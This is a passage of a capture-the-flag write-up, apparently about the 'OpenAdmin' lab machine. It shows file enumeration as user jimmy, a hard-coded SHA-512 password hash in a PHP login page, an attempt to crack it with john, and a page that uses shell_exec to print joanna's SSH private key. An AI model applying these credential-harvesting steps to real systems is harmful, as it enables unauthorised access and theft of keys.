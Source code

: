 ```
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Apr 29 20:29:04 2020 from 10.10.15.0
jimmy@openadmin:~$ 
```

again im going to enumerate all the files i can now read as Jimmy using `find / -type f -user jimmy 2>/dev/null | grep -v "/proc/"`.

This shows three interesting files:

```
...
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
...
```

inside the index.php file we find more credentials

```
$msg = '';

if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
  if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
      $_SESSION['username'] = 'jimmy';
      header("Location: /main.php");
  } else {
      $msg = 'Wrong username or password.';
  }
}
```
Analysing this hash we see its sha512.
`00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1`

After running this through john, i wasn't able to get a password so maybe there's another way to do this.

looking at main.php, I see if we can somehow access this page, we get Joanna's ssh key.
```
jimmy@openadmin:~$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
